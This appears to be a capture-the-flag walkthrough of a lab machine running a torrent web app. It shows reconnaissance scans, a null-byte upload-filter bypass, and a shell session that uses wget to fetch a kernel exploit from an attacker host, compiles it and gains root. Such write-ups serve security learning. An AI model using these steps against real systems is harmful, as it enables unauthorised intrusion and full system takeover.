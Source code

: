 ```
root@kali:~/Desktop# nmap 10.10.10.6 -A 
 
Starting Nmap 7.40 ( https://nmap.org ) at 2017-05-20 00:55 BST 
Nmap scan report for 10.10.10.6 
Host is up (0.099s latency). 
Not shown: 998 closed ports 
PORT   STATE SERVICE VERSION 
22/tcp open  ssh     OpenSSH 5.1p1 Debian 6ubuntu2 (Ubuntu Linux; protocol 2.0) 
| ssh-hostkey:  
|   1024 3e:c8:1b:15:21:15:50:ec:6e:63:bc:c5:6b:80:7b:38 (DSA) 
|_  2048 aa:1f:79:21:b8:42:f4:8a:38:bd:b8:05:ef:1a:07:4d (RSA) 
80/tcp open  http    Apache httpd 2.2.12 ((Ubuntu)) 
|_http-server-header: Apache/2.2.12 (Ubuntu) 
|_http-title: Site doesn't have a title (text/html). 
Device type: general purpose 
Running: Linux 2.6.X 
OS CPE: cpe:/o:linux:linux_kernel:2.6 
OS details: Linux 2.6.17 - 2.6.36 
Network Distance: 2 hops 
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel 
 
TRACEROUTE (using port 113/tcp) 
HOP RTT       ADDRESS 
1   126.56 ms 10.10.12.1 
2   47.39 ms  10.10.10.6 
 
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ . 
Nmap done: 1 IP address (1 host up) scanned in 14.96 seconds 
```

```
root@kali:~# dirb http://10.10.10.6 /usr/share/dirb/wordlists/common.txt 
 
 
----------------- 
DIRB v2.22     
By The Dark Raver 
----------------- 
 
 
START_TIME: Tue Jun 27 13:17:07 2017 
URL_BASE: http://10.10.10.6/ 
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt 
 
 
----------------- 
 
 
GENERATED WORDS: 4612                                                           
 
 
---- Scanning URL: http://10.10.10.6/ ---- 
==> DIRECTORY: http://10.10.10.6/.ssh/                                          
+ http://10.10.10.6/cgi-bin/ (CODE:403|SIZE:286)                                
+ http://10.10.10.6/index (CODE:200|SIZE:177)                                   
+ http://10.10.10.6/index.html (CODE:200|SIZE:177)                              
+ http://10.10.10.6/server-status (CODE:403|SIZE:291)                           
+ http://10.10.10.6/test (CODE:200|SIZE:47332)                                  
==> DIRECTORY: http://10.10.10.6/torrent/       
```

![](/assets/GetImage %2815%29.png)Upload a torrent and upload a screenshot injecting a null byte to get a succesful upload

    www-data@popcorn:/tmp$ wget 10.10.13.166:8000/15704.c 
    wget 10.10.13.166:8000/15704.c 
    --2017-05-23 21:05:40--  http://10.10.13.166:8000/15704.c 
    Connecting to 10.10.13.166:8000... connected. 
    HTTP request sent, awaiting response... 200 OK 
    Length: 9489 (9.3K) [text/plain] 
    Saving to: `15704.c' 

    100%[======================================>] 9,489       --.-K/s   in 0.1s     

    2017-05-23 21:05:40 (90.0 KB/s) - `15704.c' saved [9489/9489] 

    www-data@popcorn:/tmp$ ls 
    ls 
    15704.c  ckprm 
    www-data@popcorn:/tmp$ gcc 15704.c -o ex 
    gcc 15704.c -o ex 
    www-data@popcorn:/tmp$ ls 
    ls 
    15704.c  ckprm	ex 
    www-data@popcorn:/tmp$ ./ex 
    ./ex 
    [*] Resolving kernel addresses... 
     [+] Resolved econet_ioctl to 0xf846a280 
     [+] Resolved econet_ops to 0xf846a360 
     [+] Resolved commit_creds to 0xc01645d0 
     [+] Resolved prepare_kernel_cred to 0xc01647d0 
    [*] Calculating target... 
    [*] Triggering payload... 
    [*] Got root! 
    # ls 
    ls 
    15704.c  ckprm	ex 
    # id 
    id 
    uid=0(root) gid=0(root) 



